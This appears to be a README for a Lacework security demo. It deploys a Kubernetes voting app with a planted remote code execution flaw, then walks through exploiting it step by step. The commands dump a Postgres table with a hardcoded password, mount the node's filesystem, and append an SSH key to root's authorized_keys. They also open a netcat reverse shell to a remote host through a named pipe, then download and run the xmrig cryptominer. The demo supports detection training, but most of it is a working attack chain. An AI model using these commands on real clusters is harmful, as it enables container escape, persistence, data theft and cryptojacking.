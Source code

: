 # Lacework Cloud Workload Protection Platform - the voteapp application

Deploy a 4 micro services application and run a Remote Code Execution Attack

Just follow the steps below

## Deploy the Application

(you can deploy it within your preferred namespace, here we use default for simplicity)

```
$ kubectl apply -f vote.yml
```

```
$ kubectl get deploy
NAME     READY   UP-TO-DATE   AVAILABLE   AGE
db       1/1     1            1           82s
redis    1/1     1            1           82s
result   1/1     1            1           81s
vote     1/1     1            1           81s
worker   1/1     1            1           81s
```
We see that our vote deployment is delivered via 2 pods (2 replicat sets)

```
$ kubectl get svc/vote
NAME   TYPE           CLUSTER-IP      EXTERNAL-IP                                                               PORT(S)        AGE
vote   LoadBalancer   172.20.224.94   a022c3b3d1ae542048da983c811fc41e-1943360625.eu-west-3.elb.amazonaws.com   80:30711/TCP   116s
```

## New connection from Vote App pod to Postgres pod

### Access the Application Web Interface
This interface is fake and created for the purpose of this RCE Attack.
It aims at illustrating what can be done when a developer left the capability for a Remote Code to be executed via a specific Query String parameter for a specific Application Endpoint.

Use your preferred browser and connect to http://URL_VOTE_APP//?hacker=true


### Install postgres on the pod and connect to DB
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("apt-get update; apt-get install -y postgresql-client; export PGPASSWORD='postgres'; psql -h db -U postgres -c 'SELECT * FROM votes'")
```

## On a client machine - aka the Remote Host - (ex: your laptop), start a netcat server
### Start netcat (make sure port 5555 is open to the world on your host):
```
nc -knvlp 5555
```

## Gain access to the host where the Vote App pod is running on
### Mount the node filesystem into the pod
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("mkdir -p /mnt/node_volume; mount /dev/xvda1 /mnt/node_volume")
```

You can ckeck the node volume is properly mounted by running:
```
$ kubectl exec -it od/vote-58f757c598-7kzgn  -- df -a
```

### Setup ssh on the pod, setup a pub/private key and install the pubkey in the nodes authorized key file
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("[ -d '/mnt/node_volume/bin' ] && (rm -rf .ssh; mkdir .ssh; apt update; apt install ssh-client -y; ssh-keygen -t rsa -N '' -f .ssh/id_rsa; cat .ssh/id_rsa.pub >> /mnt/node_volume/root/.ssh/authorized_keys)")
```

### Make a ssh connection from the pod to the node, install netcat
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("[ -d '/mnt/node_volume/bin' ] && (SSH_HOST=$(cat /mnt/node_volume/etc/hostname); ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i .ssh/id_rsa root@$SSH_HOST \"yum install -y nc; mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | /usr/bin/nc REMOTE_HOST_IP 5555 1>/tmp/backpipe\")")
```

You should see the following message from the Remote Host:
```
Connection from 13.37.242.25 30628 received!
```


## On the Remote host 

### Download xmrig on the K8 node and unpack the files:
```
wget https://github.com/xmrig/xmrig/releases/download/v6.15.0/xmrig-6.15.0-linux-static-x64.tar.gz
tar -xvf xmrig-6.15.0-linux-static-x64.tar.gz
```

### Move into the xmrig dir and execute the binary:
(Do not let xmrig running for more than 10 min since you may face issues with your Cloud Service Provider)
```
cd xmrig-6.15.0 
chmod +x xmrig
xmrig
```






